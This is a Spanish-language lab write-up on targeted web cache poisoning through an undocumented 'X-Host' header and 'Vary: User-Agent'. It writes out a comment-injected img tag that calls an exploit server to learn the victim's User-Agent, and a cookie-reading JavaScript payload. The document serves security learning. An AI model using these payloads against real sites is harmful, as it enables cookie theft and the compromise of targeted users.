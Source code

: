 En esta clase profundizamos en un ataque avanzado de Web Cache Poisoning en el que es necesario descubrir una cabecera no documentada —en este caso ‘**X-Host**‘— para manipular cómo el servidor genera contenido que posteriormente se almacena en caché.

Tras identificar el punto vulnerable y confirmar que la cabecera ‘**X-Host**‘ afecta a la generación de URLs para recursos estáticos, utilizamos dicha cabecera para referenciar un archivo JavaScript alojado en un servidor controlado por el atacante, el cual contiene un payload como ‘**alert(document.cookie)**‘.

Sin embargo, el laboratorio añade una capa adicional de complejidad: el uso de la cabecera ‘**Vary: User-Agent**‘ implica que la caché discrimina las respuestas en función del navegador. Para asegurar que el contenido envenenado impacta a la víctima, es necesario identificar su User-Agent, lo cual conseguimos mediante una petición enviada desde un comentario malicioso publicado en la web.

Una vez determinado el User-Agent de la víctima, se ajusta la petición para que coincida con dicho valor, permitiendo que el servidor entregue la versión cacheada del recurso malicioso únicamente a esa víctima.

Esta clase demuestra cómo el envenenamiento de caché puede ser altamente dirigido y silencioso, explotando cabeceras olvidadas y manipulaciones de cliente que normalmente pasarían desapercibidas.

Solucion
Repetimos los pasos y aqui vamos a utilizar la cabecera (X-Host:)
![Pasted_image_20250821211041.png](/Imagenes/Pasted_image_20250821211041.png)
el cual me permite controlar el dominio donde se redirige para cargar el recurso resource/js/tracking.js
asi que configuramos el exploit
![Pasted_image_20250821212043.png](/Imagenes/Pasted_image_20250821212043.png)
luego tenemos que redirigirlo a un user-Agent asi que podemos utilizar un truco en algun post poniendo lo siguiente (<img src="https://exploit-0a930053038b901f80741be201a40053.exploit-server.net" />)
![Pasted_image_20250821212203.png](/Imagenes/Pasted_image_20250821212203.png)
nos fijamos en los logs
![Pasted_image_20250821212431.png](/Imagenes/Pasted_image_20250821212431.png)
copiamos y pegamos en la BS y recargamos la pagina
![Pasted_image_20250821233755.png](/Imagenes/Pasted_image_20250821233755.png)




